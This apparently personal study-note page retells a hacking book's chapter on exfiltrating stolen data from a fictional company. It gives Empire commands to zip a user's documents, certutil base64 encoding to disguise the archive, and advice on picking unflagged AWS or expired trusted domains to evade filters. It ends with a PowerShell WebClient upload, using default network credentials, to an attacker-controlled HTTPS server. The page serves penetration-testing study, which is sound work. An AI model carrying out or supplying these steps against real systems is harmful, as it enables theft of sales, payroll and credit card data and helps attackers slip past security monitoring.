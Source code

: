 # Data Exfiltration

Note: *this section continues from the previous cookbook on Leveraging GPO for Data Exfiltration and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 119)*

After our ‘promenade’ through GibsonBird’s information system, we’ve accumulated a treasure trove of data—gigabytes of sales records, employee wages, credit card details, and a myriad of files scattered across the network. However, to fully complete our heist, we need a secure method to transport this data to a safe haven, be it our attack server or another Virtual Private Server (VPS). Without this crucial step, we’re still in a precarious position.

Two key considerations for data exfiltration: choose a domain or IP address that isn’t blacklisted. Avoid detection by ensuring that the destination is reputable and trustworthy. Second, to prevent triggering alarms from sensitive content, we need to mask our data effectively. Let’s explore a method to transform our documents into something less suspicious.

First, zip the target directory to compress and consolidate the files. Using the Empire module, execute the following commands:

```
(Empire: FTPSales) > usemodule management/zipfolder
(Empire: zipfolder) > set Folder c:\users\elise\documents
(Empire: zipfolder) > set ZipFileName documents.zip
(Empire: zipfolder) > run
Folder c:\users\elise\documents zipped to c:\users\elise\documents.zip
```

Convert the zip file to a text format using Base64 encoding. This method disguises the file’s contents. Use the following command:

```
(Empire: FTPSales) > shell certutil -encode documents.zip documents.txt
Input Length = 150
Output Length = 264
CertUtil: -encode command completed successfully.
```

Note: *The "Input Length" represents the size of the original file, while the "Output Length" is the size of the encoded text file. Encoding typically increases the file size due to the added encoding information.*

Selecting the right domain is crucial for avoiding detection. Instead of using random or suspicious domains, opt for something that blends in:

- Amazon AWS: Register a server with a legitimate Amazon domain (e.g., amazonaws.com). This domain is less likely to be flagged.

- Expired Domains: Use websites like Expireddomains.com to find and register recently expired domains of trusted services (e.g., health insurance or banking websites). This trick exploits the domain’s former credibility to bypass filters.

Once you’ve chosen your domain, configure it with a simple HTTPS server. Run the following command on your attack server:

```
root@AttackServer: # python simpleHTTPsUpload.py
```

Use PowerShell to upload the disguised document to your server:

```
PS> $browser = New-Object System.Net.WebClient;
PS> $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$browser.uploadFile("https://yourchosen.domain", "c:\users\elise\documents.txt");
```

And there you have it—data exfiltration with stealth and precision! This method ensures your files are masked and transported without raising undue suspicion.

Note: *This final cookbook marks the conclusion of my deep dive into the "How to Hack Like a GOD" series. While this journey has covered significant ground, it’s important to remember that there are many other data exfiltration techniques, such as DNS tunneling, that could be explored and possibly added here in the future.*

*Looking ahead, my focus will shift towards the practical techniques found in "The Hacker Playbook 2: A Practical Guide to Penetration Testing." These upcoming cookbooks will continue to build on what I’ve learned, offering new insights and strategies to enhance my skills further.*
